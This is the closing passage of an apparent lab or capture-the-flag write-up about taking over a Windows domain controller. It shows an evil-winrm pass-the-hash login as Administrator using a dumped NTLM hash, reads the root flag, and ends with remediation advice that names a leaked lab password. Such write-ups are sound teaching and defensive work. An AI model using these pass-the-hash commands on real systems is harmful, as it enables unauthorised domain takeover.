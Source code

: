 Then I logged in as domain `Administrator` using the dumpped hash.
```
❯ evil-winrm -i 10.129.234.71 -u administrator -H ee4457ae59f1e3fbd764e33d9cef123d

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cat ..\desktop\root.txt
3b7aa1**************************
```

## Remediation
Short term
- Disable anonymous LDAP bind.
- Remove the cleartext password from AD attributes and rotate affected credentials (e.g., `BabyStart123!`).
- Remove unnecessary privileged group membership (e.g., `Caroline.Robinson` from `Backup Operators`).

Medium term
- Move backup operations to a dedicated, monitored service account with restricted, auditable rights.
- Enforce strong password policy and multi-factor authentication if possible.
